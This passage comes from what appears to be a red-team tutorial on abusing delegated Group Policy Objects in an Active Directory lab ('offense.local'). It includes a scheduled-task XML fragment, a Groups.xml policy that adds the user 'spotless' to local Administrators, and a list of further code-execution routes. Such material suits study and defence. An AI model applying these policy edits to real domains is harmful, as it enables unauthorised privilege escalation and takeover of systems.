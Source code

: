 ```markup
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV2>
</ScheduledTasks>
```
{% endcode %}

#### Users and Groups <a href="#users-and-groups" id="users-and-groups"></a>

The same privilege escalation could be achieved by abusing the GPO Users and Groups feature. Note in the below file, line 6 where the user `spotless` is added to the local `administrators` group - we could change the user to something else, add another one or even add the user to another group/multiple groups since we can amend the policy configuration file in the shown location due to the GPO delegation assigned to our user `spotless`:

{% code title="\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\Groups" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">
        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
            <Members>
                <Member name="spotless" action="ADD" sid="" />
            </Members>
        </Properties>
    </Group>
</Groups>
```
{% endcode %}

Additionally, we could think about leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

### References

{% embed url="https://wald0.com/?p=112" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2" %}

{% embed url="https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/" %}

{% embed url="https://adsecurity.org/?p=3658" %}
